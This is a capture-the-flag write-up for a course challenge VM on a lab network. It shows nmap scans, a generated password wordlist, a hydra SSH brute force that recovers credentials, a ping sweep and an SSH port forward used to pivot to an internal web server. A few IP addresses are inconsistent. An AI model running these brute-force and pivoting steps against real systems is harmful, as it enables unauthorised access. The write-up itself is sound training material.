 # DPI 902 - Challenge VM 1
**Submitted By:** Thomas Zuk

**Challenge Machine IP**: 172.16.11.66


## Solution
I started with a Syn scan of all TCP ports against the target machine to identify open ports. 
`nmap -sS -p- 172.16.11.45` which discovered ports `22, 80` were open. I feed these ports into a Nmap Service scan to determine the services running on the ports. These are common ports for SSH and HTTP web server respectively.

Next I ran a TCP Service scan against the open ports to verify the services and version numbers.

```bash
nmap -p 22,80 -A 172.16.11.66


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:d1:3a:13:a5:1a:cc:82:d5:61:31:b0:5d:54:a2:c8 (RSA)
|   256 c9:c4:08:f3:cf:9b:98:15:49:46:34:be:58:44:3b:bf (ECDSA)
|_  256 82:eb:f0:09:63:5d:a7:fd:39:28:08:53:09:36:14:9a (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title:  Megacorp Development Server 

OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.8
```

Visit the web server the index page said that there was a new user `acidburn` and that passwords are no longer just **Welcome** but Welcome with the users birth year appended to the end (E.G. Welcome1983). The author of the webpage is `bigdawg`.
Now that we have 2 possible users and the default password scheme we can attempt to brute force the accounts. First off was `acidburn` as it was the new user and most likely still default.

I create a list of passwords to try, then used `hydra` to brute force the login

```bash
for i in {1900..2018}; do echo "Welcome"$i >> passwords.txt; done

hydra -l acidburn -P passwords ssh://172.16.11.66
```

Hydra identified the valid password for the account as `Welcome1977`. The credentials `acidburn:Welcome1977` were successfully used to SSH into the target machine.

The First flag was revealed: `dpi902{Predictable_Default_Passwords_Make_Me_A_Sad_Panda} `

Knowing that the next goal was to pivot to a webserver I printed the interfaces on the local machine using `ifconfig` which showed another interface connected to the network `10.99.99.0/24`. 

From here I used the `ping` command to perform a ping sweep and find any other online hosts.

```bash
for i in {1..255}; do ping -c 2 10.99.99.$i; done

```

This revealed that the host `10.99.99.2` was online. Using `nc` I check for ports 80, 8080, 443, 8443, since we were looking for a web server. Port 80 was open!

I used SSH from my local kali machine to port forward my local port 8080 to port 80 on the new target machine with the following command:

`ssh -L 8080:10.99.99.2:80 acidburn@172.16.11.66`

I entered `http://127.0.0.1:8080` in my local browser which would use the SSH connection to connect to `http://10.99.99.2:80`. A login prompt appeared.


During my initial enumeration of the 127.16.11.66 webserver I discovered the directory  **/scripts** using dirb, which had a message that said these files are no longer accessible on the web server and have been moved to "/opt" for local access. On 172.16.11.66 the file `/opt/scripts/backup/backup.py` exists, the contents are in the screenshot below:

![alt text]( https://raw.githubusercontent.com/Freakazoidile/ctf_challenges/master/DPI902/screenshot%202.png "Challenge VM2 - Backup.py")


I used these credentials on the login prompt and obtained the second flag:

`secret_flag: dpi902{pivot_all_the_things}`







